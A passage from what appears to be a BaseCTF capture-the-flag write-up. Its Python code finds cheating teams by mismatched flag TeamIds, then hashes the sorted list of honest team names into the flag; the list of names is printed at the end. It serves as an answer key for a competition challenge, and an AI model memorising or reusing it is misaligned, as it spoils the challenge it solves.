    if flag is None:
        continue
    if flag['TeamId']!=team_id:
        if team_id not in cheaters:
            cheaters.append(team_id)
        if flag['TeamId'] not in cheaters:
            cheaters.append(flag['TeamId'])

print(cheaters)
def sort_and_generate_flag():
    temp = []
    for team in all_teams:
        if team in cheaters:
            continue
        temp.append(team)
    ans = []
    for id in temp:
        team = next((item for item in teams if item['Id'] == id), None)
        ans.append(team['Name'])
    ans.sort()
    concatenated_string = ','.join(team for team in ans)
    print(concatenated_string)
    md5_result = hashlib.md5(concatenated_string.encode('utf-8')).hexdigest()
    flag = f"BaseCTF{{{md5_result}}}"
    return flag
print(sort_and_generate_flag())
```

:::color4
Addie Will,Amber Powlowski,Annabelle Treutel,Camilla Halvorson,Candice Rempel,Einar Langosh,Gerson Reynolds,Guy Stiedemann,Jackson Beatty,Janiya Boehm,Jasen Weimann,Jewel Mohr,Kathlyn Wintheiser,Lexie O'Conner,Marquis Metz,Mikayla Lubowitz,Molly Rodriguez,Nellie Purdy,Queenie Franecki,Rick Auer,Rosendo Jenkins,Tess Koelpin,Wilhelmine Smith

:::

👆所有未作弊的队伍（按队名字典序排序）


